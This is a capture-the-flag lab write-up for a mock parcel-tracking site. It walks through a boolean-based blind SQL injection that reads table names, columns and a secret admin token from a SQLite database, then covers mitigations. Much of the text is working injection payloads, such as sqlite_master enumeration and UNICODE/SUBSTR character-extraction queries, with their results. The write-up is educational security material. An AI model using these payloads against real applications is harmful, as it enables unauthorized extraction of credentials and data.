# Level 18: Blind Inference

Link: [Level 18](https://breachlab.org/tracks/mirage/18)

---

## Objective

Trackbird. No output, only behaviour — infer the database one boolean at a time (blind SQLi).

---

## Reconnaissance

Another static website, were we were told to test **Blind SQL Injection**.



In the `/support` we got a request the request header for carrier and operations access.



It also says that a valid token can only opens the parcel operations console for that account.

In the `/track` page, there is a search field which can be used to search shipment details if we provide a order ID.



I checked the source code and found the search field function.



It takes an order id, search for the order ID and if it is valid, generated a link to `/shipments/<tracking-code>`





But the interesting part was what it returns in the backend.



The response returned a boolean value `false` as the field was empty.

To test this out, I added the order ID given in the `/track` page and sent the request:


It returned `true` which confirms the order ID was valid.

So I thought, it returns the response in boolean value and the objective also suggested us about **Blind SQL Injection**.

To test, I added a simple it with the classic **SQL Injection** payloads `' OR 1=1 --` and a not equal `' OR 1=2 --`.





This confirms the search field is vulnerable to **Boolean-based Blind SQL Injection**

In Burpsuite:



```
Note: I used the browser URL bar for all the payload testing, as in Burpsuite you have to encode the spaces in the payload part which was a hectic later in the challenge.
You can use the **Burp Repeater** but trust me, URL bar would be a better choice for this challenge.
```

---

## Exploitation

First, I checked which Database was the application using.

I used [PayloadsAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/#boolean-based-injection) to craft all the payloads. You can also use your favourite [search engine](https://www.google.com/).

```sql
MySQL: ' OR (SELECT VERSION()) IS NOT NULL--
PostgreSQL: ' OR (SELECT version()) IS NOT NULL--
SQLite: ' OR (SELECT sqlite_version()) IS NOT NULL--
```



The application was using **SQLite** Database. Then I checked how many table were present.

```sql
' OR (SELECT COUNT(*) FROM sqlite_master WHERE type='table')>0-- (gave true)
' OR (SELECT COUNT(*) FROM sqlite_master WHERE type='table')>1-- (gave true)
' OR (SELECT COUNT(*) FROM sqlite_master WHERE type='table')>2-- (gave false)
```





I appears to have two tables:

Let's see what is the name of the tables:

I extracted first table name extracted character-by-character using a binary-search technique which uses an unicode decimal value to determine the ASCII text.

```text
Data Extraction Techniques

We can't see the database value directly, so we ask the database yes/no questions about one character at a time.

1. String verification
    - Imagine a string in the table is: hello
    - We want to discover the first character:
    - As we the application doesn't reply the actual name or cotent, instead it replies is a yes/no form.
    - So we simply ask:
        "Is the Unicode value of the first character greater than 100?"
    
2. Building character
    - The application will reply true for low value and false for high value.
    - If you are getting:
        true → Increase the unicode value
        false → Decrease till the 'first' false value.
    - Where the unicode stops giving the value true, the starting false unicode is the value for the string.
    - Eg: For the word 'hello', the first character 'h' unicode is 104.
        >103 → true
        >104 → false
    - Using this technique we can contruct the name as well as the contents of the table.
```

```sql
' OR UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1),1,1))>114--
```

You can use this [ASCII Table](https://www.cse.psu.edu/~kxc104/class/cmpen271/13f/ascii.html) to identify the table name

For example:

>114 → true
>115 → false

Using the ASCII Table, unicode 115 is `s` which is the first letter of the string.

To change the character, just change `1` to `2`:

```sql
' OR UNICODE(SUBSTR((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1),2,1))>104--
```

Same for `3`, `4` and so on. Where every unicode value starts giving every value false, that means the strings ended.

```
>115 → s, >104 → h, >105 → i, ....
```

Using this techniques, I retrieved the name of the table `shipments`.
Same for the next table name, I got the table name `secrets`.

This 2nd table seems interesting, I tried to enumerate the table columns.

```sql
' OR unicode(SUBSTR((SELECT name FROM pragma_table_info('secrets') LIMIT 1),{letter_no},1))>{unicode_no}--
```

I got the first column name: `id`

For second column:

```sql
' OR unicode(SUBSTR((SELECT name FROM pragma_table_info('secrets') LIMIT 1 OFFSET 1),1,1))>{unicode_no}--
```

This gave me the second column name: `value`

There was only two columns as this command gave each and every unicode as `false`.

```sql
' OR unicode(SUBSTR((SELECT name FROM pragma_table_info('secrets') LIMIT 1 OFFSET 2),1,1))>{unicode_no}--
```

The `value` column seems to be interesting, so I enumerated further.

I checked how many rows were there in the table. There was only one row in the `value` table.

```sql
' OR (SELECT COUNT(*) FROM secrets)>0-- - (returned true)
' OR (SELECT COUNT(*) FROM secrets)>1-- - (returned false)
```

Then I checked the length of the table to know the extact content size.

I tested with a higher number first like 200, which came out to `false`. Then I lower the value until I got the first false unicode value.

```sql
' OR LENGTH((SELECT value FROM secrets LIMIT 1))>156-- -
```

The length of the table came out to be `156` which was a huge number to retrieve the data by manual method. So I wrote a simple python script which will automate the character retrieval work for you. I had attached the `script.py` with this folder.

Using that I got a the 156 length value string, which looked like a token.



You can either use this token to access the admin console using the `/api/unlock?token=<token>`.



Or you can also decode the string using any decoder like in **Burpsuite** or **Cyberchef** which will reveal the challenge flag. Guess the encoding and decode it ✌️.



---

## Root Cause

The root cause was lack of sanitization of the search field that the user can controll and execute malicious SQL query.

The vulnerable endpoint was `/api/track?code=` whcih the attacker controll and execute code parameter which could alter the SQL condition.

Although the application did not directly return database contents, but created a reliable boolean side channel.

```json
{"found":true} and {"found":false}
```

This allowed the database to be reconstructed one condition at a time.

---

## Security Impact

The vulnerability resulted in significant information disclosure and unauthorized access.

An attacker could:

* Confirm SQL injection.
* Identify the database services.
* Enumerate database tables columns and determine row counts.
* Extract sensitive database values character-by-character.
* Recover a sensitive data such as password, access token, credentials etc.
* Gain access to the administrative operations console and secure endpoints.

---

## Mitigation

1. Use Parameterized Queries
- Never concatenate user-controlled input into SQL queries.
- Use parameterized queries which prevents the input from being interpreted as SQL syntax.

```sql
cursor.execute(
    "SELECT ... FROM shipments WHERE tracking_code = ?",
    (code,)
)
```

2. Validate User Input
- The application should enforce the expected format of user input.
- For example, if tracking number is invalid , the application can reject unexpected input before it reaches the database.
- However, input validation should not replace parameterized queries. It should be an additional security layer.

3. Use a Database Account With Minimum Privileges
- The web application's database account should have only the permissions it actually needs.
- For example, the tracking application may only need `SELECT shipments`
- It should not have unnecessary permissions to like `DROP`, `CREATE`, `UPDATE` or `DELETE` Database tables and its contents.
- Even if SQL injection occurs, the attacker's capabilities are significantly reduced.

4. Do Not Store Sensitive Data Alongside Application Data
- In a real application, sensitive credentials shouldn't be exposed to the application's database queries.
- If storing any type of crendentials, they should be appropriately protected and designed so that database compromise does not automatically provide administrative access.

5. Implement Rate Limiting

- Attacks like Blind SQL injection require hundreds or thousands of requests. Rate limiting can make automated exploitation considerably harder.

```
Normal user: 5 requests/minute

Suspicious client:
500 requests/minute
        ↓
Rate limit / temporary block
```

- Rate limiting should be applied carefully so legitimate users aren't unnecessarily blocked.

---

## Key Takeaways

* The search field was vulnerable to Boolean-based Blind SQL Injection.
* The found field acted as a Boolean oracle.
* SQLite's sqlite_master was used to enumerate the database.
* The database contained two tables: `shipments` and `secrets`.
* The secrets table contained: `id` and `value`
* The table contained one row.
* The value was extracted character-by-character using Unicode comparisons.
* Binary search was used to automate the extraction efficiently.
* The recovered value was a encoded token.
* The token could be supplied to admin console endpoint or decoding the token can also reveals the flag.

---

## Vulnerability Classification

| Category | Value |
| -------- | ----- |
| Type | SQL Injection (Blind) |
| OWASP Top 10 | A03:2021 – Injection |
| CWE | CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') |
| CWE | CWE-200: Exposure of Sensitive Information to an Unauthorized Actor |
